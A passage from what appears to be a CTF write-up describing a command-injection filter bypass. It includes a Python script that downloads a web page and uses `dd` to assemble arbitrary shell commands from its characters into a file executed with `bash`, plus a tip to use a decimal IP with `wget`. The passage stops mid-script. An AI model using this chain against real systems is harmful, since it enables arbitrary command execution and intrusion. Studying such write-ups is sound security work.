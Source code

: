 So subdomains and subdirectories are a no-go. We actually need a full domain
like `google.com` or `hitcon.org`.

**Note**: adikso from IRC gave me some feedback on this write-up and told me a
method to bypass this. If only I had thought of this before 😩
> If you don't have the domain you could convert the ip address to its decimal
> format https://www.ipaddressguide.com/ip and then just `wget 16843009`

Since I assumed that we needed a proper domain, I asked around on my team, but
nobody owned a domain that I could use.
I was stumped here for a while before I came up with a stupid idea:
- Download some HTML page like `hitcon.org`
- Since it's HTML, it'll contain characters like `- / < >`
- Use `dd` to copy the desired characters one-by-one into a bash script
- Execute the script

At this point I was vaguely aware that I was stumbling upon an extremely
roundabout solution and that the intended solution was probably much simpler.
But I didn't have the creativity nor the experience to come up with it, so
I continued on. It took me several hours, but I eventually came up with a working
solution:

```python
import pwn
import sys
import subprocess
import os.path

assert len(sys.argv) >= 2
cmd = sys.argv[1]  # The command we want to execute (will be saved to file)

url = 'hitcon.org'
wget = 'wget {}'.format(url)

if os.path.isfile('index.html'):
    os.remove('index.html')

print(subprocess.check_output(wget, shell=True).decode())

# Need to split into bytes to ensure multi-byte chars are handled correctly
fin = bytearray(open('index.html', 'rb').read())

payloads = [
    'pwd ; rm index.html',
    'pwd ; rm payload',
    'pwd ; {}'.format(wget)
]

# bs=1 -> blocksize = 1 byte
# count=1 -> transfer 1 block
# skip -> offset of the input file to read from
# seek -> offset of the output file to write to
fstr = 'pwd ; dd if=index.html of=payload bs=1 count=1 skip={} seek={}'

for i, c in enumerate(cmd):
    pos = fin.find(c.encode())
    if pos == -1:
        raise ValueError('char `{}` not found'.format(c))
    payloads.append(fstr.format(pos, i))

payloads.append('pwd ; bash payload')

p = '\n'.join(payloads)
print(p)

if len(sys.argv) >= 3:
```